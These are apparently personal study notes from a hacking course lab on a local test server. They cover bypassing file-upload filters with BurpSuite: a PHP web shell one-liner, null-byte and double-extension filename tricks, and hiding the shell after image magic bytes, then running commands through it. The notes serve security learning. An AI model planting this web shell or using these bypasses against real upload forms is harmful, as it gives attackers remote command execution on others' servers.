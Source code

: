 now we can try to popup a shell
###### Popup a shell
aa


####  Magic Bytes 0x02
upload an image and txt file to test the webserver =>  the webserver only accept png and jpg
=>
<span style="background:#fff88f">let's bypass this protection with BurpSuite: </span>(as in the previous lab)
- Turn on [[cheat#FoxyProxy]]
- Setup initial things for BurpSuite -->  [[cheat#Initial things to do]]
- upload the img > open the req in burpSuite > Send to Repeater
- delete the img, change file type to `.php` and try to send our [[Notes_ETH#PHP shell|PHP shell]]
  `<?php system($_GET['cmd']); ?>`
	- this time we have an error =>  <span style="color:#00b050">CHECK HAPPENS server side </span> 
	=>

<span style="background:#fff88f">we need to understand where the app checks for this control:</span>
the app could:
- <span style="color:#00b050">look at the file extension </span>  (filename="file.<span style="color:#00b050"><u>php</u></span>")
  how to bypass this:
  `filename="file.php%00.png"`
  `%00` -->  is a NULL byte => it ends the string
  
  `filename="file.php.png"`
  sometimes if the app is not well configured -->  also this can bypass the check
  
- <span style="color:#00b050">check the Magic bytes</span>
##### Bypass Check Server-Side (Magic Bytes)
magic bytes -->      - first bytes of a file
                - they tell the system what type of file it is
Example:
![[Pasted image 20240310115626.png]]

=>
on BurpSuite:
- click the `<` (back arrow) -->  to turn back to the original request
- insert our payload few lines after the magic bytes -->  `<?php system($_GET['cmd']); ?>`
- change the filetype to php
  =>
  do something like this:![[Pasted image 20240310120747.png]]
  >[!warning]
  >you need to play a little bit on where to put the shell
  >maybe after the magic bytes, after 2/3 lines, you need to delete part of the img (as we did)

- Send the request
  =>
  _<span style="color:#00b050">The file is been uploaded</span>
  
Now we should do -->  directory busting (to find where the file is been uploaded)
                     but we already know that
=>
let's connect to 
`http://localhost/labs/uploads/Example2.php?cmd=COMMAND`
and see if it worked:
![[Pasted image 20240310121100.png]]
<span style="color:#00b050">IT WORKED</span> 
